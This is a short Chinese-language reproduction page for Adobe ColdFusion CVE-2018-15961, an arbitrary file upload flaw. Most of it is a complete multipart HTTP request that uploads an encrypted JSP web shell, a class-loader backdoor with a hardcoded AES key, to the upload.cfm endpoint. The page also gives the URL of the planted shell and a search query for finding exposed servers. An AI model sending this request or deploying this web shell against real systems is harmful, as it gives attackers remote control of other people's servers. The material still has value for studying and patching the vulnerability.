 # Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

# Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

## 漏洞描述

Adobe ColdFusion存在任意文件上传漏洞，通过漏洞攻击者可上传任意文件控制服务器

## 漏洞影响

```
Adobe ColdFusion 
```

## 网络测绘

```
app="Adobe-ColdFusion" 
```

## 漏洞复现

产品官网

![img](/images/202202102009930.png)

发送数据包上传任意文件

```php
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```

![img](/images/202202102009943.png)

再访问路径 **/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp**

![img](/images/202202102009019.png)

